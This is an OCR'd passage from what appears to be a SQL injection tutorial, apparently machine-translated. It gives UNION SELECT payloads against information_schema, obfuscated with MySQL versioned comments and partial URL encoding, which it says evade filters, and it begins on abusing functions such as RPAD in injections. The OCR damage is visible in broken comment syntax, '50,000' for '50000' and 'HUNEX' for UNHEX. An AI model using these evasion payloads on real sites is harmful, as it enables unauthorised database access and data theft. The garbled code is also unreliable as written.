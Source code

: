 `` ''

To start coding, we are going to use the comments method first:


`` ''
/ *! 50000union * // ** // *! 50000all / * (/ *! 50000select * // ** / 1,2,3, / *! 50000concat * / (table_name), 5) / ** // *! 50000from * // ** // *! 50000information_schema.tables * // ** // *! 50000where * // ** // *! 50000table_schema * / = database ()

`` ''

Now we have it encoded with comments, but we can mix encodings, for example with the URL method:

`` ''
/ *! 50,000% 75% 6e% 69on * // ** // *! 50,000all / * (/ *! 50,000% 73% 65% 6cect * // ** / 1,2,3, / *! 50,000% 63oncat * / (table_name), 5) / ** // *! 50000% 66rom * // ** // *! 50000% 69nformation_schema.tables * // ** // *! 50000wh% 65re * // ** // *! 50000table_schema * / = database ()

`` ''

In this way we can evade filters and play with different encodings and mixes.

## Using sql functions to get information

The SQL language has built-in functions for doing calculations on the data. Of course that is the "Official" use of them, but we are in a script of sql injections so we are going to give them a use for this case.

For this example we will use the following functions:

`` ''
RPAD
SOUNDS LIKE
UPPER
REVERSE
RIGHT
ELT
HEX
HUNEX
CASE
IF
EXTRACTVALUE
`` ''

### RPAD

We are going to start with the RPAD function which returns the expr1 padded on the right with the sequence of characters from expr2 and with n characters in length. This function is useful for formatting the output of a query.

its syntax is `RPAD (str, len [, padstr])`

An example of its use in a sql injection:
 
`SELECT RPAD (table_name, 50, '.') From information_schema.tables`

